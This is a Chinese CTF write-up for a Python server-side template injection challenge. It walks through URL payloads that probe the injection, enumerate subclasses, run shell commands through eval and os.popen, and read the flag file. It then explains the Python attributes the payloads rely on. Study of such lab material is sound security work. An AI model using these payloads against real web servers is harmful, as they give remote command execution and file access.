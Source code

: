 # Web_python_template_injection
## 题目描述
暂无  
## 思路
http://220.249.52.133:31939
点开题目链接：
![avatar](./picture/Web_python_template_injection_1.png)  
是一道 python 模板注入的题，尝试一下：  
http://220.249.52.133:31939/{{7*7}}  
![avatar](./picture/Web_python_template_injection_2.png)  
确实存在该漏洞。  
看看网站模块都有些啥：  
http://220.249.52.133:31939/{{[].__class__.__base__.__subclasses__()}}  
![avatar](./picture/Web_python_template_injection_3.png)  
os 模块都是从 warnings.catch_warnings 模块入手的，因此，查找 catch_warnings 的位置，为第59个。  
我们再查看catch_warnings模块都存在哪些全局函数：  
http://220.249.52.133:31939/{{[].__class__.__base__.__subclasses__()[59].__init__.func_globals.keys()}}  
![avatar](./picture/Web_python_template_injection_4.png)  
发现了 linecache 函数，os 模块就在其中。  
使用 ['o'+'s']，可绕过对 os 字符的过滤，查看一下有那些文件：   
http://220.249.52.133:31939/{{().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls").read()')}}  
![avatar](./picture/Web_python_template_injection_5.png)  
flag 应该就在这个 fl4g 文件中了，尝试访问一下：  
http://220.249.52.133:31939/{{"".__class__.__mro__[2].__subclasses__()[40]("fl4g").read()}}  
![avatar](./picture/Web_python_template_injection_6.png)  
得到 flag。  


## 相关知识
1. 对于模板注入漏洞，判断漏洞是否存在，一般在 url 后添加 {{‘a'+'x'}} 或者 {{7*7}} 以查看是否会执行，若花括号内的式子被执行，则说明存在模板注入漏洞。  
2. 用 python 获取系统权限  
os.system 和 os.popen。前者返回退出状态码，后者以 file 形式返回输出内容。（https://blog.csdn.net/sxingming/article/details/52071514）  
3. 用python 语句寻找文件  
__class__ ：返回对象所属的类  
__mro__：返回一个类所继承的基类元组（用于寻找基类）  
__base__ ：返回该类所继承的基类（用于寻找基类）  
__subclasses__ ： 每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的引用的列表  
__init__ ： 类的初始化方法  
__globals__ ： 对包含函数全局变量的字典的引用  
